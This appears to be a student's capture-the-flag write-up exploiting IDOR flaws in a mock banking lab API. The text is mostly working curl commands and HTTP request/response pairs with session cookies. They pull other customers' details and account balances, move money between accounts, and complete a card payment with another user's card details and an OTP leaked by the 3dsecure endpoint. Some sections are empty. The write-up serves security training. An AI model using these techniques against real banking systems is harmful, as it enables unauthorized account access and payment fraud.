




# Crafting a Comprehensive Vulnerability Report

## Task 0 - Uncovering User IDs

When we first login into the account it was gave to us, we see some requests in the Developer Tool's Network:

GET http://web0x06.hbtn/dashboard<br>
GET http://web0x06.hbtn/api/customer/transactions <br>
GET http://web0x06.hbtn/api/customer/info/me <br>
POST http://web0x06.hbtn/api/accounts/info <br>
POST http://web0x06.hbtn/api/cards/info <br>
GET http://web0x06.hbtn/api/customer/contacts <br>

Fuzzing arround with these endpoints, we get that if we send `http://web0x06.hbtn/api/customer/info/1` we receive the following response from the server:

```json 
    {
        "message":"Invalid \"customer_id\"",
        "status":"failed"
    }
```
That show's us that the endpoint `/api/customer/info` expectes a customer_id.

### Get contacts information
With the endpoint `/api/customer/contacts` is possible to get all contacts from the logged in account. There we can find the id for each user.

```bash
curl 'http://web0x06.hbtn/api/customer/contacts' \
  -H 'Cookie: session=1PoIMpkTHwmCyULrfTweZ_Y3ao3D_K1CQSbe5JbloOI.JBgOdqBPJE8YZtFLVJP_uLVzE-0'
```

#### RESPONSE
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Thu, 13 Aug 2026 14:09:01 GMT
Content-Type: application/json
Content-Length: 3449
Connection: keep-alive
Vary: Cookie

{
    "message": [
        {
            "accounts": [
                {
                    "account_id": REDACTED
                },
                {
                    "account_id": REDACTED
                }
            ],
            "contact_id": "2cb13de6b26a4a5a8f5b508c9d786321",
            "created_at": REDACTED,
            "customer_id": "051f841ad22442e39603040b2b09a11e",
            "firstname": REDACTED,
            "id": REDACTED,
            "lastname": REDACTED,
            "updated_at": REDACTED
        },
        {
            ...
            "contact_id": "9d12a2c3eada494990c0c0901a6c52e7",
            ...
            "customer_id": "051f841ad22442e39603040b2b09a11e",
            ...
        },
        {
            ...
            "contact_id": "7eb0ef8a8a3a407b8d168fe367c68e92",
            ...
            "customer_id": "051f841ad22442e39603040b2b09a11e",
            ...
        }
        ...
    ],
    "status": "success"
}
```

We can see that the customer_id for all the contacts are the same and if we check the endpoint `/api/customer/info/me`, we can see that `customer_id` is our own `id`. Because this is a contacts endpoint, that's probably the Foreign Key to relate us to our contacts.

To use the endpoint `/api/customer/info` and get information about other users we have to use the `contact_id` from the `contacts` response. Crafting the URL and sending the request we have the following:

```sh
curl -sq 'http://web0x06.hbtn/api/customer/info/2cb13de6b26a4a5a8f5b508c9d786321' -H 'Cookie: session=1PoIMpkTHwmCyULrfTweZ_Y3ao3D_K1CQSbe5JbloOI.JBgOdqBPJE8YZtFLVJP_uLVzE-0' | jq .
```



With that, we could access other user's information and get the first flag.

## Task 1 - Enumerating Account Numbers for Balance Disclosure

Another interesting endpoint is `/api/accounts/info`. This is a POST resource that sends in it's request body the `account_id` you want to retrieve information about.

### Access other user's bank account

REQUEST
```http
POST /api/accounts/info HTTP/1.1
Host: web0x06.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web0x06.hbtn/dashboard
content-type: application/json
Content-Length: 87
Origin: http://web0x06.hbtn
Connection: keep-alive
Cookie: session=1PoIMpkTHwmCyULrfTweZ_Y3ao3D_K1CQSbe5JbloOI.JBgOdqBPJE8YZtFLVJP_uLVzE-0
Priority: u=4

{
    "accounts_id":[
        "702260bec01a404aa27d3d364df1eb9a",
        "29a0fc3d11374b8080b4f4e4b0047b19"
    ]
}

```

#### RESPONSE
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Thu, 13 Aug 2026 14:09:00 GMT
Content-Type: application/json
Content-Length: 567
Connection: keep-alive
Vary: Cookie

{
    "message": [
        {
            "balance": 1395.9,
            "cards_id": [
                "1bd948251a19489a80d5508e33776da9",
                "c5dab40614bf4f8aa0da16bb9fa81da5"
            ],
            "created_at": 1786629269,
            "customer_id": "a2a97636937e494185fd2aba4423cfb4",
            "id": "29a0fc3d11374b8080b4f4e4b0047b19",
            "number": "103050268468",
            "routing": "106190002",
            "updated_at": 1786629280
        },
        {
            "balance": 253.2,
            "cards_id": [
                "26bdc429e6874dd4b26421e1d6b5a96b"
            ],
            "created_at": 1786629268,
            "customer_id": "a2a97636937e494185fd2aba4423cfb4",
            "id": "702260bec01a404aa27d3d364df1eb9a",
            "number": "104560531920",
            "routing": "106190006",
            "updated_at": 1786630134
        }
    ],
    "status": "success"
}
```

That's our account's informations. But if we send the account id from another user? With the endpoint `/api/customer/contacts` we can get the accounts for each one of our contacts. Taking one those (`8f024a102c454004902dd3d2ee866226`), we can try to craft a new request and check if we can get other user's bank account information.

## Task 2 - Manipulating Wire Transfers to Inflate Account Balance

### Send a transaction

It's possible to make tranfers `from` and `to` any user. With that we can transfer assets to our own account and get to 10k as requested.

#### REQUEST
```http
POST /api/accounts/transfer_to/bf5c683b59804606a844e7da64932e50 HTTP/1.1
Host: web0x06.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web0x06.hbtn/dashboard
Content-Type: application/json
Content-Length: 123
Origin: http://web0x06.hbtn
Connection: keep-alive
Cookie: session=1PoIMpkTHwmCyULrfTweZ_Y3ao3D_K1CQSbe5JbloOI.JBgOdqBPJE8YZtFLVJP_uLVzE-0
Priority: u=0

{
    "amount": 50,
    "raison": "same",
    "account_id": "702260bec01a404aa27d3d364df1eb9a",
    "routing": "106190006",
    "number": "104560531920"
}
```

#### RESPONSE

```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Thu, 13 Aug 2026 14:08:54 GMT
Content-Type: application/json
Content-Length: 427
Connection: keep-alive
Vary: Cookie

{
    "message": {
        "amount": 50,
        "created_at": 1786630134,
        "id": "11d2665321114681a7aa017752ffe3bb",
        "merchant_name": "James Thompson",
        "method": "wire",
        "raison": "same",
        "receiver_id": "79bcbf12952d454faf5d0c88e600a257",
        "receiver_payment_id": "bf5c683b59804606a844e7da64932e50",
        "sender_id": "a2a97636937e494185fd2aba4423cfb4",
        "sender_payment_id": "702260bec01a404aa27d3d364df1eb9a",
        "status": "completed",
        "updated_at": 1786630134
    },
    "status": "success"
}
```

### Transfering money from others account to ours


### Flag 2 when requesting our account info



## Task 3

Accessing the resource `http://web0x06.hbtn/upgrade`, we have a page to upgrade the service's plan.
Searching in the js files we receive from the server for `/api` references, we can fin the following:



Opening the JS file and using `https://beautifytools.com/javascript-beautifier.php` to make the js code readable, we can see the payment flow with the following endpoints:

- `/api/cards/init_payment`
- `/api/cards/3dsecure/{id}`
- `/api/cards/confirm_payment/{transaction_id}`

If we follow the function's logic, we can send crafted information as card information retrieved in previous tasks. The OTP code is sended to us when `/api/cards/3dsecure/{id}` endpoint is triggered. When confirming the payment we can see that the payment was completed and we could use someone else's card, even with 3dsecure.

```sh
┌──(foxtrot㉿yankee)-[~/…/dlh-cybersecurity-academy/dlh-cyber_security/web_application_security/0x06_idor]
└─$ curl -qs 'http://web0x06.hbtn/api/cards/init_payment' \
-H 'Content-Type: application/json' \
-H 'Cookie: session=gjPOPEqXZ7Mzs-q9B4k17P70cyqbiMi2POQOzhhKObM.PJoICe7DK3SnYJol_i7F0hNVPQ8' \   
-d '{"firstname": "Robert", "lastname": "Martinez", "number": "4000619000042739", "e_month": "08", "e_year": "2028", "cvv": "542", "amount": 9.99}'
{"message":{"transaction_id":"ea628605e922472ba22d568ead61ed49"},"status":"success"}
                                                                                                              
┌──(foxtrot㉿yankee)-[~/…/dlh-cybersecurity-academy/dlh-cyber_security/web_application_security/0x06_idor]
└─$ curl -qs 'http://web0x06.hbtn/api/cards/3dsecure/1c9004928a064e008ff47b9c5dd2bf02' \
-H 'Cookie: session=gjPOPEqXZ7Mzs-q9B4k17P70cyqbiMi2POQOzhhKObM.PJoICe7DK3SnYJol_i7F0hNVPQ8'
{"message":{"OTP":"62271","cvv":"542"},"status":"success"}

┌──(foxtrot㉿yankee)-[~/…/dlh-cybersecurity-academy/dlh-cyber_security/web_application_security/0x06_idor]
└─$ curl -qs 'http://web0x06.hbtn/api/cards/confirm_payment/ea628605e922472ba22d568ead61ed49' \
-H 'Content-Type: application/json' \                                                       
-H 'Cookie: session=gjPOPEqXZ7Mzs-q9B4k17P70cyqbiMi2POQOzhhKObM.PJoICe7DK3SnYJol_i7F0hNVPQ8' \
-d '{"otp": "62271", "number": "4000619000042739"}'                                                   
{"flag_3":"e9a3d312120e271ab2e490af2421ad19","message":{"amount":9.99,"created_at":1786661289,"id":"ea628605e922472ba22d568ead61ed49","merchant_name":"DexterShield ltd","method":"card","raison":"CyberBank Upgrade","receiver_id":null,"receiver_payment_id":null,"sender_id":"37b1684a305543458833d5fff26a0e77","sender_payment_id":"1c9004928a064e008ff47b9c5dd2bf02","status":"confirmed","updated_at":1786661772},"status":"success"}
```